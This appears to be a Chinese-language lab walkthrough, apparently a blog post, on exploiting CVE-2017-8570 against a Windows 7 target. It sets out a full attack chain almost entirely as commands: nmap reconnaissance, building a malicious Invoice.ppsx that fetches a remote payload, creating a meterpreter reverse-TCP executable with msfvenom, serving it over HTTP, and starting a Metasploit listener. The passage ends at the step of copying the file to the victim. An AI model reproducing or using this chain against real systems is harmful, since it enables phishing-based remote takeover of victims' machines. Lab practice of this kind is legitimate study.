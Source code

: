 ## 使用nmap确定渗透对象

nmap -sP 192.168.89.0/24

![使用nmap确定渗透对象.jpg](https://upload-images.jianshu.io/upload_images/7216746-61772dbd326b751d.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 使用nmap尝试远程识别靶机操作系统

nmap -O 192.168.89.129

![使用nmap尝试远程识别靶机操作系统.jpg](https://upload-images.jianshu.io/upload_images/7216746-dcba69dd77443e78.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 生成恶意 PPSX 文件

```
python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.1.134/logo.doc

```

![生成恶意 PPSX 文件.jpg](https://upload-images.jianshu.io/upload_images/7216746-0ed4f65926712673.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 生成恶意的exe文件

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.134 LPORT=4444 -f exe > /tmp/shell.exe

```

![生成恶意的exe文件.jpg](https://upload-images.jianshu.io/upload_images/7216746-6de37bb186396ffd.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 生成监听模式，监听来自 ppsx 执行反弹 shell:(这里会自动启动 80 端口）

```
python cve-2017-8570_toolkit.py -M exp -e http://192.168.1.134/shell.exe -l /tmp/shell.exe

```

![监听来自 ppsx 执行反弹.jpg](https://upload-images.jianshu.io/upload_images/7216746-931f3aee1baf56c0.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 生成msf的监听

```
msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.134; run"

```

![生成msf的监听.jpg](https://upload-images.jianshu.io/upload_images/7216746-1fb13602638a51a2.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 将生成的恶意 Invoice.ppsx 文件复制到目标靶机 win7 系统，然后执行：

